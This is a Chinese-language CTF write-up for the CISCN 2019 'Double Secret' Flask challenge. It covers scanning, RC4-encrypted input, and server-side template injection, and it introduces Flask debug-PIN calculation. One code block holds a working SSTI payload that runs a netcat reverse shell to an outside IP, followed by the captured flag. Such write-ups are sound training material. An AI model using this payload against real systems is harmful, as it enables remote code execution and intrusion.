 ### 通过国赛一道题来认识flask的debug模式算PIN [CISCN 2019华东南]Double Secret

### 审计

打开环境只有一句**Welcome To Find Secret**，那就扫扫后台

```shell
[14:22:51] Starting:
[14:23:25] 200 -    2KB - /console
[14:23:47] 200 -   17B  - /robots.txt
[14:23:48] 200 -   57B  - /secret
```

进去**console**发现是flask的调试模式，需要pin，暂时不管
robots.txt没发现什么有用了
/secret让我传一个secret

**传1回显d   传d回显1  传12345报错**

![image-20220903142636557](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903142636557.png)

在app.py的报错信息中发现这个，查了一下发现是RC4加密

### SSTI

这题给出了密钥，已知密钥那基本上就是明文，结合flask并且有回显
**可以试试SSTI**

![image-20220903143054457](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903143054457.png)

注意输出要为`Latin1`，UTF-8没有那些字符

![image-20220903143147513](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903143147513.png)

成功回显，先不管console，单纯的试试ssti

```py
#这个payload加密成功反弹shell并得到flag
{{url_for.__globals__.os.popen('nc 1.15.107.150 3296 -e /bin/sh').read()}}
cat /flag.txt
NSSCTF{0a85c600-8655-444f-9ef1-f5818f5fc441}
```

但是我感觉这并不是原题的本意，很可能原题是不能出网的，而正常得到flag会被删除(但nss的环境flag不是以这个开头)

![image-20220903144200841](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903144200841.png)

而且这样做也没用到console

### flask算pin

**因为本地同一文件开环境时pin永远是一样的，这样看来求pin过程没有任何随机因素**
**那么就用这题来学学flask算pin🐎从而夺取console**
**(注：本题flask为python2环境，还有个例题会讲解python3的不同)**
